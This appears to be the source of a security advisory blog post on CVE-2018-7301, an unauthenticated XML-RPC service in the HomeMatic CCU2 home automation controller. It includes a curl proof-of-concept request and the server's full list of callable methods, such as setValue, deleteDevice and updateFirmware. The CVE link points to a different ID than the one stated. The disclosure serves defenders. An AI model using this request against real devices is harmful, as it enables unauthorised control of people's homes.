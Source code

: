 ```yaml
---
layout: post
title: "CVE-2018-7301: Unauthenticated XML-RPC Service in HomeMatic CCU2"
date:   2018-02-21 13:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."

# Issue Description

While analyzing the available ports of the CCU2, an open XML-RPC port without authentication has been identified. This can be exploited by sending arbitrary XML-RPC request to control the attached bidcos-devices.

The following request illustrates the problem:

```
curl -v -H "Content-Type:text/xml" -d "<?xml version="1.0"?><methodCall>
<methodName>system.listMethods</methodName><params/></methodCall>"
http://192.168.2.145:2001
```

The following response shows that the system successfully processed the unauthenticated request:

~~~
HTTP/1.1 200 OK
Server: XMLRPC++ 0.7
Content-Type: text/xml
Content-length: 1736

<?xml version="1.0"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>abortDeleteDevice</value>
            <value>activateLinkParamset</value>
            <value>addDevice</value>
            <value>addLink</value>
            <value>addVirtualDeviceInstance</value>
            <value>changeKey</value>
            <value>clearConfigCache</value>
            <value>deleteDevice</value>
            <value>deleteVolatileMetadata</value>
            <value>determineParameter</value>
            <value>exit</value>
            <value>getAllMetadata</value>
            <value>getDeviceDescription</value>
            <value>getInstallMode</value>
            <value>getKeyMismatchDevice</value>
            <value>getLinkInfo</value>
            <value>getLinkPeers</value>
            <value>getLinks</value>
            <value>getMetadata</value>
            <value>getParamset</value>
            <value>getParamsetDescription</value>
            <value>getParamsetId</value>
            <value>getServiceMessages</value>
            <value>getValue</value>
            <value>getVersion</value>
            <value>getVolatileMetadata</value>
            <value>hasVolatileMetadata</value>
            <value>init</value>
            <value>listBidcosInterfaces</value>
            <value>listDevices</value>
            <value>listReplaceableDevices</value>
            <value>listTeams</value>
            <value>logLevel</value>
            <value>ping</value>
            <value>putParamset</value>
            <value>refreshDeployedDeviceFirmwareList</value>
            <value>removeLink</value>
            <value>replaceDevice</value>
            <value>reportValueUsage</value>
            <value>restoreConfigToDevice</value>
            <value>rssiInfo</value>
            <value>setBidcosInterface</value>
            <value>setInstallMode</value>
            <value>setInterfaceClock</value>
            <value>setLinkInfo</value>
            <value>setMetadata</value>
            <value>setRFLGWInfoLED</value>
            <value>setTeam</value>
            <value>setTempKey</value>
            <value>setValue</value>
            <value>setVolatileMetadata</value>
            <value>system.listMethods</value>
            <value>system.methodHelp</value>
            <value>updateFirmware</value>
            <value>system.multicall</value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
~~~~

# CVE

[CVE-2018-7301](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7301)

# Credit

Patrick Muench of [SVA Systemvertrieb Alexander GmbH](https://www.sva.de)

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
